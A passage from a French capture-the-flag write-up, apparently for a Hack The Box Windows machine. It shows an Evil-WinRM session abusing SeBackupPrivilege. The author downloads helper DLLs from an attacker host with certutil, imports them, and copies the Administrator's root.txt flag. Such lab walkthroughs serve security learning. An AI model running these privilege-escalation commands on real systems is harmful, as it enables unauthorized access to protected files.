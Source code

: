 ```
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

- **SeBackupPrivilege**(Read Sensitive files) By Uploading Malicious dll


Je vais essayer le SeBackupPrivilege pour escalader les privileges

- https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-sebackupprivilege/
- https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960


```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> certutil -urlcache -split -f http://10.10.16.27/SeBackupPrivilegeUtils.dll SeBackupPrivilegeUtils.dll
****  Online  ****
  0000  ...
  4000
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc-printer\Documents> dir


    Directory: C:\Users\svc-printer\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/3/2024   6:07 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----         3/3/2024   6:07 PM          16384 SeBackupPrivilegeUtils.dll


*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

Maintenant je peux copier des sensitives files ou les lire
```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt C:\Users\svc-printer\Documents\flag.txt -Overwrite
*Evil-WinRM* PS C:\Users\svc-printer\Documents> dir


    Directory: C:\Users\svc-printer\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/3/2024   6:11 PM             34 flag.txt
-a----         3/3/2024   6:07 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----         3/3/2024   6:07 PM          16384 SeBackupPrivilegeUtils.dll


*Evil-WinRM* PS C:\Users\svc-printer\Documents> type flag.txt
4b435ebcb93dcc1446274dd71d13fb67
```
